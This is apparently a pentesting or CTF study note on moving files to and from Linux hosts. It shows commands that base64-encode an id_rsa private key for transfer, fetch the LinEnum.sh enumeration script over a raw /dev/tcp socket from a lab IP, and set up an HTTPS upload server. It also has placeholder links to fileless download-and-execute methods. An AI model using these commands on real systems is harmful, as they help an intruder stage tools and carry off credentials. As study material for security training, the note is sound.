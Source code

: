 # Linux File Transfer

## Table of Contents
```table-of-contents
exclude: /Table of Contents/i
minLevel: 2
style: nestedList
hideWhenEmpty: true
```

## Overview

What this technique is and when I need it

## Downloading

### Base64 Encoding

**Step 1:** Check the MD5 hash of the contents.
```bash
md5sum id_rsa
```

**Step 2:** Encode contents to base64 and copy it to clipboard.
```bash
cat id_rsa | base64 -w 0; echo
```

**Step 3:** On the second Linux machine, decode the Base64 file content.
```bash
echo -n 'encoded' | base64 -d > id_rsa
```

**Step 4:** Confirm the MD5 hash matches.
```bash
md5sum id_rsa
```

### wget

#### Method 1: Download

Download a file.
![[wget#^simple-download]]

#### Method 2: Download - Fileless

Download and execute a file in memory (fileless).
![[wget#^fileless-download]]

### cURL

#### Method 1: Download

Download a file.
![[curl#^simple-download]]

#### Method 2: Download - Fileless

Download and execute a file in memory (fileless).
![[curl#^fileless-download]]

### Bash

#### Method 1: /dev/tcp

**Step 1:** Connect to the target webserver.
```bash
exec 3<>/dev/tcp/10.10.10.32/80
```

**Step 2:** Send a HTTP GET request for the file.
```bash
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
```

**Step 3:** Print the response.
```bash
cat <&3
```

### SSH

#### Method 1: SCP

![[SCP#^download-file-from-linux]]

### Code
#### Method 1: Python

**Step 1:** Create a webserver
![[python#^python3-webserver]]

**Step 2:** Download a file.
![[python#^download-remote-file]]

#### Method 2: PHP

**Step 1:** Create a webserver.
![[PHP#^create-webserver]]

**Step 2:** Download a file.
![[PHP#^download-remote-file]]

#### Method 3: Ruby

**Step 1:** Create a webserver.
![[ruby#^create-webserver]]

**Step 2:** Download a file.
![[ruby#^download-remote-file]]

#### Method 4: Perl

**Step 1:** Create a webserver.
![[perl#^create-webserver]]

**Step 2:** Download a file.
![[perl#^download-remote-file]]


## Uploading

### HTTP

#### Method 1: uploadserver

**Step 1:** Create a Self-Signed Certificate
```bash
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
```

**Step 2:** Start the webserver
```bash
mkdir www && cd www; sudo python3 -m uploadserver 443 --server-certificate ~/server.pem
```

**Step 3:** Upload files.
![[curl#^upload-multiple-files-insecure]]

### SSH

#### Method 1: SCP

![[SCP#^upload-file-to-linux]]

### Python

#### Method 1: uploadserver

**Step 1:** Start the webserver
![[python#^uploadserver]]

**Step 2:** Upload a file.
![[python#^upload-file]]

### Netcat

**Step 1:** On one Linux machine, open a listener to write the expected file data.
![[netcat#^receive-file-over-tcp]]

**Step 2:** On the other machine, send the file.
![[netcat#^send-file-over-tcp]]

### Ncat

**Step 1:** On one Linux machine, open a listener to write the expected file data.
![[Ncat#^receive-file-from-listener]]

**Step 2:** On the other machine, send the file.
![[Ncat#^send-file-to-listener]]

## File Encryption

**Step 1:** Encrypt a file
![[openssl#^encrypt-file-aes]]

**Step 2:** Decrypt the file
![[openssl#^decrypt-file-aes]]

## GTFOBins

To search for the download and upload function in [GTFOBins](https://gtfobins.github.io/) for Linux Binaries, we can use `+file download` or `+file upload`.
![[Pasted image 20250614115249.png]]

## Related Techniques

- [[Windows File Transfer]]
- [[Linux PrivEsc]]

## CTF Examples

```dataview
TABLE file.name as "Box", choice(contains(file.tags, "easy"), "🟢", choice(contains(file.tags, "medium"), "🟡", "🔴")) as "Diff"
FROM "06-CTF-Writeups" AND #linux-file-transfer
SORT file.ctime DESC
LIMIT 5
```

## Learning Resources

- 

#linux-file-transfer #technique